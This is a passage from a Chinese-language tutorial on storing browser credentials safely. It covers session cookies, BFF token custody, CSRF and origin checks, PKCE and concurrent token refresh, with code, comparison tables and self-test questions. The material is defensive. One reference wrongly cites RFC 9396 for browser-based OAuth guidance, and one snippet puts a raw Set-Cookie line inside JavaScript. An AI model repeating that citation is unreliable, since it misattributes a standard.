  return { method, path, headers, body };
}

function buildBrowserResponse(upstream) {
  return { ok: true, data: upstream.data };
}

// 模拟下游服务：只认 Bearer 头
function downstream(req) {
  const token = String(req.headers.authorization || '').replace('Bearer ', '');
  if (token !== 'at_live_1') return { status: 401 };
  return { status: 200, data: ['order-1', 'order-2'], internalTraceId: 'trace_9f' };
}

const allowed = ['https://app.example.com'];

// 1. 登录后 BFF 建立会话，浏览器只拿到 sid
const sid = createBffSession({ accessToken: 'at_live_1', refreshToken: 'rt_live_1', ttlMs: 60000 });
console.log('浏览器持有的 sid 长度:', sid.length);
assert.equal(sid.length, 64);
assert.equal(sid.includes('at_live_1'), false);

// 2. 来源校验：错误来源被拒绝
assert.equal(checkSource({ origin: 'https://evil.example', allowed, csrfHeader: 'c_1', csrfExpected: 'c_1' }), false);
assert.equal(checkSource({ origin: 'https://app.example.com', allowed, csrfHeader: 'bad', csrfExpected: 'c_1' }), false);
assert.equal(checkSource({ origin: 'https://app.example.com', allowed, csrfHeader: 'c_1', csrfExpected: 'c_1' }), true);
console.log('来源与 CSRF 双重校验通过');

// 3. BFF 从服务端会话取令牌，转发给下游
const session = getBffSession(sid);
assert.equal(session.accessToken, 'at_live_1');
const upstreamReq = buildUpstreamRequest({ session, method: 'GET', path: '/orders' });
assert.equal(upstreamReq.headers.authorization, 'Bearer at_live_1');
console.log('上游请求头:', upstreamReq.headers);

const upstreamRes = downstream(upstreamReq);
assert.equal(upstreamRes.status, 200);

// 4. 回传给浏览器的响应里没有令牌
const browserRes = buildBrowserResponse(upstreamRes);
assert.deepEqual(browserRes, { ok: true, data: ['order-1', 'order-2'] });
assert.equal(JSON.stringify(browserRes).includes('at_live_1'), false);
assert.equal(JSON.stringify(browserRes).includes('trace_9f'), false);
console.log('浏览器收到:', browserRes);

// 5. 会话过期后取不到令牌
const shortSid = createBffSession({ accessToken: 'at_2', refreshToken: 'rt_2', ttlMs: -1 });
assert.equal(getBffSession(shortSid), undefined);
console.log('过期会话已被删除');

console.log('全部断言通过');
```

预期输出：

```text
浏览器持有的 sid 长度: 64
来源与 CSRF 双重校验通过
上游请求头: { authorization: 'Bearer at_live_1' }
浏览器收到: { ok: true, data: [ 'order-1', 'order-2' ] }
过期会话已被删除
全部断言通过
```

**常见坑**

| 现象 | 原因 | 怎么修 |
| --- | --- | --- |
| 上线后请求全部 401 | BFF 与前端域名不同，Cookie 发不到 | 把 BFF 部署到与前端同一站点，或用同站点不同路径反向代理 |
| 下游服务仍然暴露 CORS | 前端代码里还留着直连下游的旧接口 | 前端只保留 BFF 地址，下游服务只允许 BFF 调用 |
| BFF 日志里出现完整令牌 | 日志中间件打印了整个请求头 | 打印前脱敏 `authorization` 字段，只保留前 6 个字符 |
| 登出后仍能调用下游 | 只删了浏览器 Cookie，BFF 会话表没清 | 登出接口先删 BFF 会话，再返回清 Cookie 的响应头 |

**小结**

1. BFF 把令牌放回服务端，浏览器端只剩一个随机会话编号。
2. 下游服务只需要信任 BFF 一个调用方，CORS 与令牌刷新集中处理。
3. BFF 仍然需要 CSRF 防护，因为浏览器依然会自动携带同域 Cookie。

## 综合对比

下表按可检查的维度对比四种常见方案。表中"自动携带"指的是浏览器是否会主动把凭据放进请求。

| 维度 | Session Cookie | 内存 Access Token 加 Refresh Cookie | localStorage 存令牌 | BFF 同域 Cookie |
| --- | --- | --- | --- | --- |
| 凭据存放位置 | 服务端会话表加浏览器 Cookie | 令牌在内存，刷新令牌在 HttpOnly Cookie | 令牌明文在浏览器磁盘 | 令牌只在服务端会话表 |
| 浏览器是否自动携带 | 是 | Access Token 需手动加请求头 | 需手动加请求头 | 是，只携带会话编号 |
| XSS 能否直接读取令牌 | 否，加了 HttpOnly 时读不到 | 否，内存变量不挂全局 | 能，直接读取字符串 | 否，脚本读不到令牌 |
| 是否需要 CSRF 防护 | 需要 | 需要，针对刷新接口 | 不需要，凭据不自动携带 | 需要 |
| 刷新页面后是否保持登录 | 保持 | 保持，走刷新接口恢复 | 保持 | 保持 |
| 登出后是否立即失效 | 是，删除服务端记录即生效 | 是，但需回收 Refresh Token | 否，令牌到期前仍然有效 | 是，删除服务端会话即生效 |
| 令牌过期的处理位置 | 无需处理，会话可续期 | 前端统一处理 401 并刷新 | 前端统一处理 401 并刷新 | BFF 内部处理，前端无感知 |
| 需要改动的服务端组件 | 会话表 | 认证服务加刷新接口 | 认证服务加刷新接口 | BFF 加会话表 |
| 多下游服务的适配成本 | 每个下游都要读会话表 | 每个下游都要验签 | 每个下游都要验签 | 只有 BFF 面对下游 |

选择顺序可以按下面的问题走。

1. 只有单体后端，且同域部署时，先用 Session Cookie。
2. 有多个下游服务，且希望前端不接触令牌时，选 BFF。
3. 必须跨域直连且无法加中间层时，用内存 Access Token 加 Refresh Cookie。
4. `localStorage` 方案只在无法改架构的存量项目里作为过渡，并同时加 CSP。

## 应用与行业实践

### 应用场景地图

| 场景 | 用到本页哪个知识点 | 典型技术选型 | 注意事项 |
|---|---|---|---|
| 后台管理的万行表格 | Session Cookie 放服务端、CSRF 防护 | HttpOnly Secure Cookie、SameSite=Lax、CSRF Token | 表格接口不要用 GET 触发写操作 |
| 低端安卓的首屏加载 | Token 放内存、BFF 缩短令牌链路 | Authorization Code + PKCE、BFF 持有 Refresh Token | 首屏前先恢复会话再请求数据 |
| 多人协作白板 | Access Token 刷新与并发刷新 | 短 Access Token、Refresh Token、Promise 共享刷新 | 多个请求同时 401 时只发一次刷新 |
| 移动端原生应用内嵌 WebView | OAuth 2.0 + PKCE | 外部浏览器完成授权码流程 | WebView 不要拼外部登录页到同源 |
| 面向公众的活动报名页 | CSRF、SameSite | SameSite=Lax、Origin 校验 | 低风险页面不能只靠 Lax 全覆盖 |
| 运营后台导出报表 | HttpOnly Cookie 限制 XSS 获取 | HttpOnly Secure SameSite Cookie | 导出接口要二次校验 Origin |
| 第三方 IdP 登录的 SPA | SPA 授权码 + PKCE | OIDC、PKCE、静默续期或 BFF | 不要用隐式流，也不要把 Refresh Token 放 localStorage |
| 微服务网关统一鉴权 | BFF 模式 | 网关或 BFF 持有 Access Token | 下游服务收令牌时仍需校验受众与过期时间 |

### 三个场景拆解

#### 场景 1：后台管理的万行表格

- **业务背景**：运营人员在后台打开活动名单页，表格一次渲染超过一万行。若把 Session ID 放在 localStorage，任意一处第三方脚本注入都能直接带走登录态。
- **怎么用本页知识解决**：登录后服务端只下发 HttpOnly Cookie 存 Session ID。前端每次拉取表格数据带上 Cookie，写操作再用 CSRF Token 校验。

```js
// 服务端设置登录 Cookie
Set-Cookie: sid=abc123; HttpOnly; Secure; SameSite=Lax; Path=/

// 前端读不到 sid，因为 HttpOnly
// 表格加载用同源请求，浏览器自动带 Cookie
fetch('/api/reports/activity-list?page=1', {
  method: 'GET',
  credentials: 'include'
});

// 写操作先取一次性 CSRF Token
const { csrfToken } = await fetch('/api/csrf-token', {
  credentials: 'include'
}).then(r => r.json());

// 提交时带上 CSRF Token
fetch('/api/reports/export', {
  method: 'POST',
  credentials: 'include',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({ csrfToken, listId: 'report-1024' })
});
```

- 思路是先接受 Cookie 自动携带的事实，再用 HttpOnly 挡住 JS 读取。
- `SameSite=Lax` 挡住跨站 POST 携带 Cookie，CSRF Token 兜底覆盖遗留浏览器。
- `Secure` 只允许 HTTPS 传输，防止抓包拿到 Session ID。
- 导出用 POST 而不改成 GET。
- 请求中不依赖前端手动传 Session Token。

- **怎么度量收益**：用 Chrome DevTools Security 面板确认 Cookie 有 HttpOnly、Secure、SameSite 属性。用浏览器控制台执行 `document.cookie`，确认看不到 `sid`。用跨站页面提交一次 POST，观察服务端是否拒绝。
- **什么时候不该用**：如果表格数据来自多个第三方 API，浏览器无法用同源 Cookie 直接带凭证，不应硬套这套方案。如果产品要求客户端完全离线可用，只靠服务端 Session Cookie 也不合适。

#### 场景 2：低端安卓的首屏加载

- **业务背景**：低端安卓打开 SPA 首屏时，网络与应用初始化都慢。若每次打开都先跳第三方登录页，耗时明显增加。
- **怎么用本页知识解决**：登录用授权码加 PKCE。登录完成后把短 Access Token 放内存，Refresh Token 放 BFF，首个请求由 BFF 直接换好令牌。

```ts
// BFF 登录路由：完成授权码流程后把 Refresh Token 留在服务端
await router.get('/auth/callback', async (req, res) => {
  const tokens = await oauthClient.exchangeCode(req.query.code, pkceVerifier);
  await sessionStore.set(req.cookies.sid, { refreshToken: tokens.refresh_token });
  res.redirect('/?login=done');
});

// BFF 首屏接口：用存好的 Refresh Token 换取短 Access Token
const accessToken = await bffSession.getRefreshedAccessToken(req.cookies.sid);
const user = await fetch(profileApi, {
  headers: { Authorization: `Bearer ${accessToken}` }
}).then(r => r.json());

// 前端首屏只取用户信息，避免等待第三方跳转
const firstData = await fetch('/api/bootstrap', {
  credentials: 'include'
}).then(r => r.json());
```

- Refresh Token 不出 BFF，前端脚本拿不到长期凭证。
- 首屏只发一次同源 `/api/bootstrap`，不经过第三方跳转。
- 内存里的 Access Token 只在当前页面生命周期有效。
- BFF 负责刷新，降低低端设备上的本地密码学开销。

- **怎么度量收益**：用 Lighthouse 或 WebPageTest 记录 URL 到 Largest Contentful Paint 的时间。对比有 Refresh Token 在 BFF 和有令牌在 localStorage 的首屏耗时。用 DevTools Network 记录回调跳转次数和第三方请求数。
- **什么时候不该用**：没有 BFF 可部署的纯静态站点不应套用。如果 Refresh Token 本身也需要支持长期离线多标签共享，这种内存方案不满足。

#### 场景 3：多人协作白板

- **业务背景**：白板应用有多个 WebSocket 和 HTTP 请求同时使用 Access Token。过期瞬间会触发一批 401，多个代码路径可能同时刷新令牌。
- **怎么用本页知识解决**：单页内用一个 Promise 共享刷新过程。第一个 401 发起刷新，其他请求等待同一个 Promise，刷新成功后重放原始请求。

```ts
let refreshPromise: Promise<string> | null = null;

async function getAccessToken(): Promise<string> {
  if (cachedAccessToken) return cachedAccessToken;
  if (refreshPromise) return refreshPromise;
  refreshPromise = fetch('/oauth/refresh', {
    method: 'POST',
    credentials: 'include'
  }).then(r => r.json()).then(data => {
    cachedAccessToken = data.access_token;
    refreshPromise = null;
    return data.access_token;
  }).catch(err => {
    refreshPromise = null;
    throw err;
  });
  return refreshPromise;
}

// 请求失败后重试一次，避免并发 401 重复刷新
async function apiFetch(url: string, options: RequestInit, retry = true) {
  let token = await getAccessToken();
  const headers = new Headers(options.headers);
  headers.set('Authorization', `Bearer ${token}`);
  const res = await fetch(url, { ...options, headers });
  if (res.status === 401 && retry) {
    cachedAccessToken = null;
    const newToken = await getAccessToken();
    headers.set('Authorization', `Bearer ${newToken}`);
    return fetch(url, { ...options, headers });
  }
  return res;
}
```

- 用一个模块级 `refreshPromise` 合并并发刷新。
- 刷新成功后清空缓存令牌再重放请求。
- 失败时重置 `refreshPromise`，让下一次调用可重试。
- 请求函数带一次重试，不会无限循环。
- 多个 WebSocket 连接也要订阅同一个令牌更新事件，而不是各自刷新。

- **怎么度量收益**：用浏览器 DevTools Network 查看刷新接口发出的请求数。登出前手动使令牌过期，观察 10 个并发请求是否只调一次 `/oauth/refresh`。用 Performance 面板记录 401 重试耗时。
- **什么时候不该用**：如果应用会在多个标签页同时运行，模块级 Promise 只在单页内有效，仍然会跨标签重复刷新。如果刷新接口本身返回很慢且没有超时控制，所有请求都会排队等待一个慢响应。

### 行业先进实践

- `Authorization Code + PKCE（出处：RFC 9396 OAuth 2.0 for Browser-Based Apps）`  
  浏览器应用不再使用隐式流，改用授权码加 PKCE。授权码不直接暴露 Access Token，攻击者截获授权码也只能尝试换取令牌。你的项目可在 SPA 登录时始终生成 `code_verifier`，并把 `code_challenge` 发送给授权服务器。

- `Refresh Token Rotation（出处：Auth0 官方文档 Refresh Token Rotation）`  
  每次刷新后发一个新的 Refresh Token，旧令牌立即作废。若服务端在一分钟内看到旧令牌重放，就撤销该会话。你的项目可把 Access Token 设短，把 Refresh Token 设可轮换，并在 BFF 中记录令牌版本。

- `SameSite=Lax 作为默认基线（出处：Chrome Developers 博客 SameSite cookies explained）`  
  Chrome 把未显式设置 `SameSite` 的 Cookie 按 Lax 处理，降低跨站 POST 携带凭证的风险。你的项目应显式写 `SameSite=Lax`，再对高风险写接口加 CSRF Token。

- `Session Cookie 加固三件套（出处：OWASP Session Management Cheat Sheet）`  
  OWASP 要求 Session ID 使用 `HttpOnly`、`Secure`、`SameSite` 属性，并在权限变化时换新 ID。你的项目应在升权、登出、改密后重新生成 Session ID，防止会话固定。

### 从学到用：落地路线

1. 在后台管理模块试点 HttpOnly Cookie + CSRF Token。验收标准：`document.cookie` 读不到 Session ID，跨站 POST 被拒绝。
2. 选一个 SPA 页面接入授权码 + PKCE，并把 Refresh Token 放到 BFF。验收标准：浏览器 Network 面板无 Refresh Token 响应，刷新令牌不出 BFF。
3. 将并发刷新 Promise 封装成公共请求模块，推广到所有 API 调用。验收标准：同一批 401 只触发一次刷新请求。
4. 增加登录态安全回归项，每次发版前用 Playwright 或 Cypress 跑 Cookie 属性与 CSRF 用例。验收标准：测试失败阻塞合并，不回退到 localStorage 存长期令牌。

### 动手作业

- **目标**：给一个 SPA 原型加 BFF 登录，令牌留在服务端，并实现单页并发刷新保护。
- **步骤**：
  1. 用 Node 或你熟悉的语言实现 BFF 登录回调，接收授权码并验证 PKCE。
  2. BFF 把 Refresh Token 存到服务端 Session，前端只接收 HttpOnly Cookie。
  3. BFF 提供 `/api/token` 同源接口，向前端返回短 Access Token。
  4. 前端用上一节代码实现 `getAccessToken` 和 `apiFetch`，合并并发刷新。
  5. 写一个接口 `/api/protected`，校验 Access Token 并在过期时返回 401。
  6. 手写三个并发请求，观察刷新接口只被调用一次。
  7. 提交实验记录：Network 面板截图、Cookie 面板截图、并发刷新次数。
- **验收标准**：
  1. 浏览器 DevTools 中 `document.cookie` 看到的是 HttpOnly Cookie，看不到 Refresh Token。
  2. Network 面板中 `/oauth/refresh` 只在多个并发 401 时出现一次。
  3. Access Token 过期后，至少一个原始请求能自动重试成功。
  4. 所有导航请求均通过 HTTPS，Cookie 带 `Secure` 属性。
  5. 提交的 Playwright 或 Cypress 用例能自动复现上述检查。

## 深入阅读与参考

!!! tip "怎么用这些资料"
    先读「官方文档与规范」建立准确的概念，再读「源码与示例」核对细节，最后用「教程、书籍与视频」换一种讲法加深理解。每条都写明了读哪一节、带着什么问题读。

### 官方文档与规范

| 资源 | 为什么读 | 怎么读 |
|---|---|---|
| [MDN Cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies) | Cookie 属性与作用域讲得最全，是凭据存放方案的基础。 | 读 SameSite、Secure、HttpOnly 三节，在 DevTools 里对照本站 Set-Cookie 逐一验证。 |
| [RFC 6265 HTTP State Management（Cookie）](https://www.rfc-editor.org/rfc/rfc6265) | 官方规范，说明浏览器如何解析、存储与匹配 Cookie。 | 读存储模型与域/路径匹配章节，回答子域能否读到父域 Cookie，并记录结论。 |
| [CSRF 防护 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) | 汇总 token 与 SameSite 两大防线，直接对应本章 CSRF 小节。 | 读防御章节，选一种方案在项目里实现，并记录缺 SameSite 时的风险。 |
| [Cross-site request forgery (CSRF)](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/CSRF) | 简明讲清 CSRF 的攻击前提与防御手段，适合先建立直觉。 | 先读攻击示例，再带着“Cookie 为何自动携带”重读同源策略相关段落。 |
| [XSS 防护 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) | 按输出位置给出转义规则，解释 XSS 为何能偷走内存令牌。 | 读输出编码与 DOM 章节，搜索项目里的 innerHTML，逐个整改并写备注。 |
| [RFC 7636 PKCE](https://www.rfc-editor.org/rfc/rfc7636) | SPA 无法安全保存密钥，PKCE 是公共客户端的事实标准。 | 读 4.1 至 4.3 节，动手实现 code_verifier 与 S256 challenge 的生成。 |

### 源码与示例

| 资源 | 为什么读 | 怎么读 |
|---|---|---|
| [Google XSS Game](https://xss-game.appspot.com/) | 六个关卡覆盖常见注入点，把 XSS 从概念变成手感。 | 通关后为每一关写出对应的过滤或编码方案，并记录所用 payload。 |

### 教程、书籍与视频

| 资源 | 为什么读 | 怎么读 |
|---|---|---|
| [OAuth 2.0 Simplified](https://www.oauth.com/) | 图文讲解授权码与 PKCE，比规范好读，适合先入门。 | 读授权码与 PKCE 两章，再抓一个真实登录请求对照参数，区分 code 与 token。 |
| [Sam Newman：BFF 模式](https://samnewman.io/patterns/architectural/bff/) | BFF 概念的提出者亲述，解释令牌为何该留在服务端。 | 读完为 Web 与移动端各画一条 BFF 边界，标出令牌终止与转换的位置。 |

## 自测题

??? question "Session Cookie 方案里，服务端到底保存了什么，浏览器又保存了什么？"
    服务端保存的是会话记录，键是随机 session id，值是用户标识与创建时间。浏览器只保存这个随机 id，通常放在 `HttpOnly` Cookie 里。攻击者拿到 id 能冒充用户，但拿不到 id 就无法构造请求。所以登出必须删除服务端记录，仅清 Cookie 不够。

??? question "为什么 HttpOnly Cookie 能挡住 XSS 读取，却挡不住 CSRF？"
    `HttpOnly` 只限制 `document.cookie` 的读取能力，它不改变浏览器自动携带 Cookie 的规则。CSRF 利用的正是自动携带：攻击者不需要读到值，只要让浏览器替他把请求发出去。防御 CSRF 要另外用 `SameSite`、`Origin` 校验、CSRF Token 三件事，与 `HttpOnly` 无关。

??? question "Access Token 过期后前端该怎么做，为什么不能让每个请求各自去刷新？"
    先判断失败原因是过期，再用 Refresh Token 调刷新接口，拿到新令牌后重放原请求。如果每个请求各自刷新，10 个并发 401 会产生 10 次刷新调用，其中 9 次可能因为令牌已轮换而失败。正确做法是用一个模块级 Promise 缓存刷新过程，其他请求都 await 同一个 Promise。

??? question "PKCE 里 code_verifier 与 code_challenge 的关系是什么，为什么能防授权码截获？"
    `code_challenge` 等于对 `code_verifier` 做 SHA-256 再 base64url 编码，`code_verifier` 只留在客户端。授权请求只发 `code_challenge`，换令牌时发 `code_verifier`，服务器重算并比对。攻击者即使截获回调地址里的 `code`，没有 `code_verifier` 就算不出匹配的 challenge，换令牌会返回 `invalid_grant`。

??? question "SPA 为什么不能放 client_secret，需要密钥时怎么处理？"
    SPA 的 JS 全部下发到浏览器，任何人打开开发者工具都能读到常量，包括打包产物里的字符串。因此 SPA 属于公开客户端，只能靠 PKCE 证明身份。需要 `client_secret` 的流程应交给 BFF，由服务端保存密钥并代前端调用授权服务器。

??? question "用了 BFF 之后，浏览器还需要 CSRF 防护吗？"
    需要。BFF 与前端同域，浏览器仍然会自动携带会话 Cookie，跨站表单提交依然能触发请求。BFF 要在每个状态变更请求上校验 `Origin` 头与 CSRF Token，两者都通过才转发。区别是令牌不再进入浏览器，XSS 的收益被压到只能以当前用户身份发请求。

??? question "SameSite 取值为 Lax 时，跨站的 POST 请求会带上 Cookie 吗？"
    不会。`Lax` 在跨站场景只放行顶层导航且方法为 GET 的请求，表单自动提交的 POST 会被拦住。同站请求不受限制，无论方法是什么都会携带。这也是为什么状态变更接口必须用 POST、PUT、DELETE，而不能用 GET 实现。

??? question "转义用户输入时要处理哪五个字符，为什么不能只转尖括号？"
    五个字符是 `&`、`<`、`>`、双引号、单引号。只转尖括号时，攻击者可以闭合一个属性值再插入新的属性，例如在 `href` 后插入 `onmouseover`。`&` 必须最先替换，否则后续替换产生的实体会被二次转义，页面显示成 `&amp;lt;`。

## 延伸阅读

- MDN Web Docs：HTTP 章节中的 Cookie 与 Set-Cookie 条目
- MDN Web Docs：Set-Cookie 章节里的 SameSite 属性说明
- MDN Web Docs：Cross-site scripting 与 Cross-site request forgery 条目
- MDN Web Docs：Content Security Policy 章节与 script-src 指令
- MDN Web Docs：CORS 章节与 Access-Control-Allow-Credentials 说明
- RFC 6265：HTTP State Management Mechanism
- RFC 6749：The OAuth 2.0 Authorization Framework
- RFC 7636：Proof Key for Code Exchange by OAuth Public Clients
- OAuth 2.0 Security Best Current Practice（IETF 文档，需核对官方文档：要核对当前编号与发布状态）
- OAuth 2.0 for Browser-Based Apps（IETF 文档，需核对官方文档：要核对当前草案版本与推荐流程）
- OWASP Cheat Sheet Series：Cross-Site Request Forgery Prevention Cheat Sheet
- OWASP Cheat Sheet Series：XSS Prevention Cheat Sheet
- OWASP Cheat Sheet Series：Session Management Cheat Sheet
- Node.js 官方文档：crypto 模块中的 createHmac、createHash、randomBytes、timingSafeEqual
